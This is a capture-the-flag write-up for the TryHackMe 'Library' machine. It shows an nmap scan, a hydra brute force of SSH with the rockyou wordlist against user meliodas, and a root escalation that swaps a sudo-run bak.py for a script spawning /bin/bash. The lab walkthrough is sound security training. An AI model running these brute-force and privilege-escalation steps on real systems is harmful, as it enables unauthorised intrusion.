 ```yaml
---
parent: "[[CTFs - THM]]"
---
```


```bash
# PLATFORM          . THM
# CTF NAME          . Library
# DESCRIPTION       . boot2root machine for FIT and bsides guatemala CTF
# DIFFICULTY        . Easy
# CTF LINK          . https://tryhackme.com/room/bsidesgtlibrary
```

```
sudo nmap -sSVC -T5 -p- 10.10.59.93 -oN library
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c42fc34767063204ef92918e0587d5dc (RSA)
|   256 689213ec9479dcbb7702da99bfb69db0 (ECDSA)
|_  256 43e824fcd8b8d3aac248089751dc5b7d (ED25519)

80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Welcome to  Blog - Library Machine
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

#### PORT 80

- From the nnamp scan, we see that there's a disallowed entry in robots.txt.

```
User-agent: rockyou 
Disallow: /
```

- I tried using the `rockyou` User-Agent both via curl and in Burp Suite but I got no different answer so I assume this is a hint to use rockyou on SSH service (since this is the only service left).

- I took a look on the website and I saw that the article was posted by the user `meliodas`.

- I've decided to bruteforce the SSH service using hydra and `meliodas` as username 

```
hydra -l meliodas -P /usr/share/wordlists/rockyou.txt 10.10.59.93 ssh -I -t 4 -v
```

```
[STATUS] 29.14 tries/min, 204 tries in 00:07h, 14344195 to do in 8203:23h, 4 active
[22][ssh] host: 10.10.59.93   login: meliodas   password: {REDACTED}
```

- The user flag is located in `/home/meliodas/user.txt`.

- In the home directory there's also a `bak.py` script

```
#!/usr/bin/env python
import os
import zipfile

def zipdir(path, ziph):
    for root, dirs, files in os.walk(path):
        for file in files:
            ziph.write(os.path.join(root, file))

if __name__ == '__main__':
    zipf = zipfile.ZipFile('/var/backups/website.zip', 'w', zipfile.ZIP_DEFLATED)
    zipdir('/var/www/html', zipf)
    zipf.close()
```

```
-rw-r--r-- 1 root root 353 Aug 23  2019 bak.py
```

#### PRIVILEGE ESCALATION 

- We cannot write or alter that `bak.py` file but we can remove it entirely since it is in our home directory.

- Then, we can create another `bak.py` file with arbitrary content

```
import os
os.system("/bin/bash")
```

- Now, we can execute `sudo python /home/meliodas/bak.py` and get a shell as root.

- The last flag is in `/root/root.txt`.


